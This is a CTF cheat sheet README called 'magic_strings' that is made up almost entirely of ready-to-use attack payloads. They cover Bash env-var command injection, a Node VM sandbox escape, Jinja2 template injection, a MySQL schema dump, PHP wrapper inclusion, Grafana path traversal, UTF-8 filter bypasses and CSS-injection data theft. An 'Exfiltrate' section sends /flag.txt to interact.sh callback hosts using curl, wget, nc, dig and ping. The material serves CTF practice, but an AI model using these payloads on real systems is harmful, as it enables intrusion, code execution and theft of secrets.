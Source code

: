 # magic_strings
Handy bits for CTFs and life

### Bash 

#### ENV Vars
    BASH_ENV='$(id 1>&2)' bash -c 'echo hello'

    env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'

#### Encoding

    $'\151\144'

### NodeJS

#### Node VM

Escape Node VM Sandbox

    this.constructor.constructor("return this.process")().mainModule.require("child_process").execSync("id").toString()

### Python

#### Jinja2 / Template Injection

    {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
    {{config.__class__.__init__.__globals__['os'].environ}}

### MySQL 

MySQL >=5.6

    concat(0x404f73616e64614d616c6974680a, @@innodb_version ,0x0a,user(),0x0a, schema(), (select (@x) from (select (@x:=0x00), (@number:=0),(select (0) from (mysql.innodb_table_stats) where (@x:=concat(@x,0x0a,lpad(@number:=@number+1,2,0),0x2e20,database_name, 0x202d3e20 ,table_name,0x202d3e20 ,length(table_name)))))x))

### PHP

    data://data:text/plain,<?php system("id")?>
    
    php://filter/convert.base64-encode/resource=index.php

### Exfiltrate

    curl -T /flag.txt xxxx.interct.sh
    wget --post-file /flag.txt xxxx.interct.sh
    wget -U `cat /flag.txt` xxxx.interct.sh
    wget `base64 -w0 /flag.txt`.xxxx.interct.sh
    ping here.xxx.interact.sh
    ping $(head -c 32 /flag|base64|tr -d "="|tr "+" "-"|tr "/" ".").xxx.interact.sh
    nc nchere.xxx.interact.sh 80
    dig dighere.xxx.interact.sh
    git clone githere.xxx.interact.sh

### Path Traversal

    curl --path-as-is grafana.example.com/public/plugins/alertmanager/../../../../../../../../tmp/flag

### Bypass

#### utf8 normalization

      " 	%C0%A2 	%E0%80%A2 	%F0%80%80%A2 	Double quote 	
      ' 	%C0%A7 	%E0%80%A7 	%F0%80%80%A7 	Single quote 	
      < 	%C0%BC 	%E0%80%BC 	%F0%80%80%BC 	Less-than sign 	
      > 	%C0%BE 	%E0%80%BE 	%F0%80%80%BE 	Greater-than sign 	
      . 	%c0%2e %C0%AE 	%E0%80%AE 	%F0%80%80%AE 	Full stop 	
      / 	%c0%2f %C0%AF 	%E0%80%AF 	%F0%80%80%AF 	Solidus 	
      \ 	%c0%5c %C1%9C %c0%80%5c %E0%81%9C 	%F0%80%81%9C 	Reverse solidus

### XSS

#### CSS Injection

Abuse unicode range to exfiltrate charset

```css
@font-face {
    font-family:poc;
    src:url('//colab.com/A');
    unicode-range:U+0041;
}
@font-face {
    font-family:poc;
    src:url('//colab.com/B');
    unicode-range:U+0042;
}
#secret {
    font-family:poc;
}
...
```
Generator

```python
import string
colab = "xxx.interact.sh"
select = "h1"
for l in string.ascii_letters:
  print("@font-face{font-family:poc;src:url('//"+l+"."+colab+"/"+l+"');unicode-range:U+00"+ hex(ord(l))[2:]+";}",end="")
print(select+"{font-family:poc;}")
```

Attribute selectors

Contains: 

```css
a[href*="flag{"] {
  ...
}
```

Starts with:

```css
[class^="flag{A"] {
  background:url('//colab.com/A');
}
[class^="flag{B"] {
  background:url('//colab.com/B');
}
```


## Resources

- [Payloads All The Things]( https://github.com/swisskyrepo/PayloadsAllTheThings/ )
- [Reverse Shells Generator]( https://www.revshells.com/ )
- [IP Format Converter (Bypass)](https://h.43z.one/ipconverter/)

### De/Compile De/Obfuscate

- [JS Deobfuscator]( https://www.seosniffer.com/javascript-deobfuscator )
- [De Obfuscate JS]( https://lelinhtinh.github.io/de4js/ )
- [Compile Online]( https://rextester.com/ )
- [Decompile Java]( http://www.javadecompilers.com/ )

### Encode/Decode/Crypto

- [codext]( https://github.com/dhondta/python-codext )

### Cheatsheets

- [Web CTF Cheatsheet]( https://github.com/sl4x0/Web-CTF-Cheatsheet )
- [XSS Cheat sheet]( https://portswigger.net/web-security/cross-site-scripting/cheat-sheet )
- [HackTricks]( https://book.hacktricks.xyz )
- [💣 PHP Web CTF Cheatsheet](https://github.com/w181496/web-ctf-cheatsheet)
- [XS Leaks]( https://xsleaks.dev/docs/attacks/css-tricks/ )
